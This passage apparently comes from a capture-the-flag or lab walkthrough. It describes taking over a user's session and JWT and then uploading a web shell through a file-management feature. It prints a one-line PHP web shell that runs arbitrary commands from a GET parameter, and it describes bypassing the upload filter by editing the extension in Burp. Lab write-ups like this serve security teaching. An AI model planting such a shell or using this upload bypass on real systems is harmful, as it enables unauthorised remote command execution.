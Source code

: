 Now time to become `paul`, let's go'n change our `PHP Session` and `JWT`.

![](src/paul.png)

## File upload

We go and upload a malicious web shell from `File management` section.<br>
When I tried `system()` function to get a webshell, I failed. But `shell_exec` function is working properly.

__f4T1H.php__

```php
<?php print shell_exec($_GET['f4T1H']);?>
```

Before pressing `Upload`, make sure you intercept the requests on Burp.

Now change the extension and filename as seen below.

![](src/burp.png)
